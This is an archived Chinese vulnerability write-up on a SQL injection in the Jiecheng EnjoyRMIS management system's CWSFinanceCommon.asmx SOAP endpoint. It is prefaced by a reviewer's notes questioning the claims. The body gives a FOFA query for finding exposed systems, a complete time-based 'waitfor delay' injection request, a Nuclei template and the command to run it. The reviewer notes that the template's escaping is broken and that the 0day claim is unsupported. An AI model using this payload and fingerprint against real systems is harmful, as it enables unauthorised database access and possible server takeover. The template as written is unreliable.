




# 【0day】捷诚管理信息系统 CWSFinanceCommon SQL 注入漏洞 (附 nuclei poc)

> 指纹字段校订（2026-10-04）：按原归档正文的明确平台标签及完整表达式恢复当前查询，旧误填或截取字段逐字保存在 `previous_*`；后文对此旧字段的诊断按当前字段阅读。仅经过本库保守语法与原字面核对，未在线运行查询，不把指纹命中视为漏洞存在。

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：捷诚EnjoyRMIS管理信息系统；Nuclei仅检测工具
- 本文讨论：CWSFinanceCommon.asmx GetOSpById sId SQL注入
- 版本、权限与配置前提：SQL Server延时、SOAP端点可达；版本/认证未给
- 资料类型：SOAP SQL注入及Nuclei模板；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 误归Nuclei安全设备，应捷诚业务系统
- YAML双引号路径包含\{转义，YAML并无该合法转义，模板损坏
- 单次200且5–6秒延时无基线/对照容易误报漏报，verified:true不是证明
- 0day无日期/厂商披露依据；远控服务器需数据库权限链
- 元数据FOFA为搜索语句占位
- 已落实的文本修订：HTTP 报文围栏改为 http；残缺指纹退出可执行索引并保留原值。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 延时探针会占用线程或数据库连接；需记录基线和对照，单次慢响应或超时不足判定注入

### 待核与来源

- 权限、版本、延时对照及修复公告待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/tUSLho32uZGLMJVYUScchw)

免责申明：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**

01

—

漏洞名称

捷诚管理信息系统 CWSFinanceCommon.asmx sql 注入漏洞

02

—  

漏洞影响

捷诚管理信息系统



03

—  

漏洞描述

捷诚管理信息系统是一款功能全面，可以支持自营、联营到外柜租赁的管理，其自身带工作流管理工具，能够帮助企业有效的开展内部审批工作。该系统 CWSFinanceCommon.asmx 存在 sql 注入漏洞。黑客可以通过该漏洞获取数据库敏感信息，甚至远控服务器。

04

—  

FOFA 搜索语句

```
body="/Scripts/EnjoyMsg.js"

```



05

—  

漏洞复现

向靶场发送如下数据包

```http
POST /EnjoyRMIS_WS/WS/APS/CWSFinanceCommon.asmx HTTP/1.1
Host: 192.168.86.128:9001
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36
Connection: close
Content-Length: 369
Accept: */*
Accept-Language: en
Content-Type: text/xml; charset=utf-8
Accept-Encoding: gzip
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetOSpById xmlns="http://tempuri.org/">
      <sId>1';waitfor delay '0:0:5'--+</sId>
    </GetOSpById>
  </soap:Body>
</soap:Envelope>

```



证明存在漏洞

06

—  

nuclei poc

poc 文件内容如下

```
id: jiecheng-CWSFinanceCommon-sqli
info:
  name: 捷诚管理信息系统 CWSFinanceCommon.asmx SQL注入漏洞
  author: fgz
  severity: high
  description: '捷诚管理信息系统是一款功能全面，可以支持自营、联营到外柜租赁的管理，其自身带工作流管理工具，能够帮助企业有效的开展内部审批工作。该系统CWSFinanceCommon.asmx 存在sql注入漏洞。黑客可以通过该漏洞获取数据库敏感信息，甚至远控服务器。'
  tags: 2023,jiecheng,sqli
  metadata:
    max-request: 3
    fofa-query: body="/Scripts/EnjoyMsg.js"
    verified: true
http:
  - method: POST
    path:
      - "\{\{BaseURL\}\}/EnjoyRMIS_WS/WS/APS/CWSFinanceCommon.asmx"
    headers:
      Content-Type: text/xml; charset=utf-8
    body: "<?xml version=\"1.0\" encoding=\"utf-8\"?>\n<soap:Envelope xmlns:xsi=\"\
      http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"\
      \ xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\">\n  <soap:Body>\n\
      \    <GetOSpById xmlns=\"http://tempuri.org/\">\n      <sId>1';waitfor delay\
      \ '0:0:5'--+</sId>\n    </GetOSpById>\n  </soap:Body>\n</soap:Envelope>"
    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && duration>=5 && duration<=6"

```

运行 POC

```
nuclei.exe -t mypoc/其他/jiecheng-CWSFinanceCommon-sqli.yaml -u http://192.168.86.128:9001

```



07

—  

修复建议

请关注厂商补丁公告信息及时打补丁，或者部署 waf 产品进行防护。

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
